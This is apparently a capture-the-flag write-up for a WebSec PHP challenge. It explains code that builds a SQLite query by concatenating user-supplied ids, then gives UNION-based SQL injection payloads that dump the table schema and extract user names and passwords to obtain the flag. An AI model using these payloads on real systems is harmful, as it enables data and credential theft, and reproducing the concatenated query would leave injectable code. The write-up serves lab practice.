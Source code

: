 + When we give id as 1,2,3 we get 
User user_31 with id 1 has no privileges.
User user_99 with id 2 has no privileges.
User user_29 with id 3 has no privileges.
+ When we give id as 0,0,0 we get
User admin with id 0 has all privileges.
+ The explode() function breaks a string into an array


The remaining integers in the array are then concatenated into a string with commas between them using the implode() function. This string is used in a SQL query to select user information from a database table named 'users'. The query returns the user's ID, privileges, and name.
```
<?php
if (isset($_GET['ids'])) {
    if ( ! is_string($_GET['ids'])) {
        die("Don't be silly.");
    }

    if ( strlen($_GET['ids']) > 70) {
        die("Please don't check all the privileges at once.");
    }

  $tmp = explode(',',$_GET['ids']);
  for ($i = 0; $i < count($tmp); $i++ ) {
        $tmp[$i] = (int)$tmp[$i];
        if( $tmp[$i] < 1 ) {
            unset($tmp[$i]);
        }
  }

  $selector = implode(',', array_unique($tmp));

  $query = "SELECT user_id, user_privileges, user_name
  FROM users
  WHERE (user_id in (" . $selector . "));";

  $stmt = $db->query($query);
```
+ If the length of the string is less than or equal to 70, the code uses explode(',',$_GET['ids']) to split the string into an array of user IDs. It then loops through the array and converts each ID to an integer using (int)$tmp[$i]. If the ID is less than 1, it is removed from the array using unset($tmp[$i]).

+the code constructs a SQL query using the user IDs and executes it using $db->query($query), where $db is an instance of a database connection object. The query selects the user_id, user_privileges, and user_name columns from the users table where the user_id is in the list of user IDs provided in the query string parameter
+ implode(): returns a string from the elements of an array.
+ So lets try a basic sqli payload:
payload: ,,,)) union select 1,2, sql as user_id from sqlite_master--
output: User CREATE TABLE users ( user_id INTEGER PRIMARY KEY, user_name TEXT NOT NULL, user_privileges INTEGER NOT NULL, user_password TEXT NOT NULL ) with id 1 has no privileges.
payload: ,,,)) union select 1,user_name,user_password from users --
output: WEBSEC{SQL_injection_in_your_cms,_made_simple}
